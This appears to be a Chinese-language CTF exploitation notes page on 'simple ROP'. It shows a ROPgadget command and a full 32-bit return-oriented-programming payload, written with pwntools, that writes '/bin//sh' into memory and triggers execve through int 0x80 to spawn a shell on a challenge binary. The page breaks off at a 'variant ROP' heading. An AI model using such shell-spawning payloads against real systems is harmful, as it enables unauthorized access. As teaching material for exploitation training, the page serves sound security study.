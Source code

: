 #### 简单ROP：

```shell
ROPgadget --binary pwn --ropchain
#上面是工具的自带生成rop工具 pwn是文件名
#利用这个生成的rop来写payload
```

```python
#例子1

p = cyclic(0x18+4)
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b81c6) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b81c6) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049303) # xor eax, eax ; ret

p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de955) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049303) # xor eax, eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0806cc25) # int 0x80
io.sendline(p)


```

#### 变种ROP：
